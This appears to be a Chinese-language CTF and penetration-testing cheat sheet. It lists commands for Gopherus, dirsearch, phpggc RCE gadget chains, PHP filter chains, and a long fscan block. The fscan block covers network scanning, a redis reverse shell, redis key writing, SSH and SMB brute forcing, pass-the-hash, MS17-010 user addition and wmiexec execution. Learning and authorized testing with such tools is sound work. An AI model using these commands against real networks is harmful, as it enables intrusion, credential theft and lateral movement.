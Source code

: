 eg:`python gopherus.py --exploit fastcgi`

### 目录扫描

- dirmap

  `python dirmap.py -i xxx -lcf`

- dirsearch

  `python dirsearch.py -u xxx`

### php

#### phpggc 框架漏洞

- 运行`./phpggc -l`以获取小工具链列表
- `-i`获取有关链的详细信息
- 对于 RCE 小工具，执行的命令可以有 3 种格式类型，具体取决于小工具的工作方式：
  - 远程命令执行（命令）：`./phpggc Symfony/RCE1 id`
  - RCE（PHP 代码）：`./phpggc Symfony/RCE2 'phpinfo();'`
  - RCE（函数调用）：`./phpggc Symfony/RCE4 system id`
- `--wrapper`( )选项`-w`允许您定义包含以下函数的 PHP 文件：
  - `process_parameters(array $parameters)`**：之前** 调用`generate()`，允许更改参数
  - `process_object(object $object)`**：在之前** 调用`serialize()`，允许更改对象
  - `process_serialized(string $serialized)`：**在 后** `serialize()`立即调用，允许更改序列化字符串

#### iconv

`python php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '`

### pickle反序列化

#### pker

还没学到,再说

### 内网

#### fscan

```bash
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法

```bash
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
fscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
fscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
fscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (只支持简单tcp功能的代理,部分功能的库不支持设置代理)
fscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,只适用于备选工具,更推荐其他ms17010的专项利用工具)
fscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash,如32ed87bdb5fdc5e9cba88547376818d4)
fscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
```